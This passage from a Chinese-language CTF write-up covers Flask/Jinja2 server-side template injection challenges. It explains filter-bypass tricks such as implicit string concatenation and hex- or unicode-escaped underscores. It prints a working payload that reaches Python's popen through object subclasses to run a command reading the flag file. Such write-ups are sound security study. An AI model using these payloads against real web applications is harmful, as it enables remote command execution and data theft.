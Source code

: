 拿到 flag: `flag{d90c5ef2-1a36-47c0-8bce-f78a1c7ee9d4}`

另一种思路: 通过尝试可以发现普通的拼接字符串不行的原因是本题过滤了 `+`, 但是 python 的 payload 中, 当两个字符串紧挨的时候, 会自动拼接, 也就是说, `+` 是可以省略的!

> 也就是说, `'__class__'` = `'__clas'+'s__'` = `'__clas''s__'`; 这样就绕过了对 `class` 和 `+` 的过滤

#### [NewStarCTF 公开赛赛道]BabySSTI_Three

确认步骤相同, 仍然是 Flask SSTI; 然后输入上一题的 payload, 多次测试后发现去除了 `-`, 并且过滤了 `:`, `request`

根据上题中的第二种思路, 这里只需要将 `_` 用 unicode 编码即可;

payload:

```
?name={{[]['\x5f\x5fcl''ass\x5f\x5f']['\x5f\x5fba''se\x5f\x5f']['\x5f\x5fsubc''lasses\x5f\x5f']()[117]['\x5f\x5fin''it\x5f\x5f']['\x5f\x5fglo''bals\x5f\x5f']['po''pen']('\u0063\u0061\u0074\u0020\u002f\u0066\u006c\u0061\u0067\u005f\u0069\u006e\u005f\u0068\u0033\u0072\u0033\u005f\u0035\u0032\u0064\u0061\u0061\u0064').read()}}
```

![5.png](5.png)

#### [Dest0g3 520迎新赛]EasySSTI

先测试表单, 发现过滤了 `.` ,`[]`, `'`, `"`, `_`, `class`, `request` , `system`, `os`

`self` `config` `()` `|` `~`是可用的

尝试 `{{config}}`:

![6-1.png](6-1.png)
